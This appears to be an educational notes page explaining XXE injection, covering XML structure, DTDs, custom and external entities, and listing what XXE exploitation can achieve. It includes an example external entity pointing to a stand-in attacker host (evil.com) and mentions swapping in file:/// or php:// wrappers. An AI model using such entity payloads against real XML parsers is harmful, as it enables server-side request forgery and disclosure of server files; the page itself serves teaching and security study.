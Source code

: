 # XXE Injectionn

## Explanation

XML External Entity (XXE) injection is a vulnerability caused by attackers manipulating with the way servers process XML data. This can be used to read files, perform SSRF, or even RCE in some cases.

Some applications use XML to read transmit data between the browser and the server, and they do so via a library / API.

### XML Entities

Extensible Markup Language (XML) is a language designed for storing and transporting data. Today, it is declining in usage (but not totally zero!) due to JSON being more favourable. The structure of XML is similar to HTML with a tree structure of tags and data. Here's an example:

```xml
<?xml version="1.0" encoding="UTF-8">
<number>1</number>
```

The `<?xml version="1.0">` line is an XML declaration, and it used to indicate the version and the character encoding within the XML data. XML entities is just a representation of data within an XML document, using the `<>` characters. 

### Document Type Definition

The XML DTD contains declarations that define the structure of the document. It is declared in the optional `DOCTYPE` element, and is either **fully self-contained** (internal DTD) or **loaded externally** (external DTD). It can also be both.

### Custom and External entities

XML allows custom entities to be defined within the DTD:

```xml
<!DOCTYPE foo [ <!ENTITY me "you" > ]>
```

The above is referenced using `&me;`, similar to pointers in C. When referenced, the `&me;` will be replaced with the value `you` upon loading.

External entities are declared **outside of the DTD**. This uses the `SYSTEM` keyword, and a URL must be specified.

```xml
<!DOCTYPE foo [ <!ENTITY evil SYSTEM "http://evil.com/evil-payload" > ]>
```

The URL is not strict on using the `http://` wrapper. It can be replaced with `file:///` or `php:///` if needed. The above shows a method of which XXE injection can be abused for SSRF.

## Exploitation

There are quite a few payloads out there, and each of them can be used to perform:
* Arbitrary read of files
* SSRF into internal network OR external malicious pages
* Blind XXE via Out-of-Band payloads